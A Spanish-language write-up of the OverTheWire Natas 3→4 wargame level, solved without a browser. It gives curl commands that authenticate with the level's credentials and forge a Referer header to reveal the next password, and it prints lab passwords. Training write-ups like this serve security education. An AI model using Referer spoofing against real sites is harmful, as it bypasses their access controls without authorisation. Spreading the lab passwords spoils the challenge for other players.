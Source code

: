 ```yaml
---
title: OverTheWire - Natas 3 -> 4 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 3 -> 4 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas4
Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
URL:      http://natas4.natas.labs.overthewire.org
```

# Solución
---


Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas3->4-3.png)

Vemos que al final de la página nos da instrucciones para visualizar la contraseña del siguiente nivel. Nos señala que solo los usuarios que vengan desde "http://natas5.natas.labs.overthewire.org/" pueden ver la contraseña.

![](/images/images-otw-natas/natas3->4-1.png)

Si agregamos la cabecera `Referer: http://natas5.natas.labs.overthewire.org/` podremos ver la contraseña, y con el parámetro `-H` agregamos esta cabecera a nuestro comando de curl.

Con este comando resolvemos el reto:

```bash
curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ -H 'Referer: http://natas5.natas.labs.overthewire.org/'
```

![](/images/images-otw-natas/natas3->4-2.png)

# Contraseña
---

`iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

---

## [Anterior](/level-2-3)
## [Siguiente](/level-4-5)